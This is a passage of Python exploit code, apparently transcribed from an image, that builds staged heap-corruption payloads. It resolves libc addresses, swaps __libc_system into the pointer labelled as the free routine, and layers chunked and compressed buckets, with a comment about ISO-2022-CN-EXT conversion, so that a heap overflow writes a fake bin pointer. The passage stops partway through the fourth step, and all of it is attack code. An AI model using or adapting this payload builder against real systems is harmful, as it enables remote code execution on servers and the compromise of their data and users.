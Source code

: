~~~ python
    
        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)
        
        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"
        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
        step4 = b"=00" + b"\x00" * (step4_size - 1)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
~~~
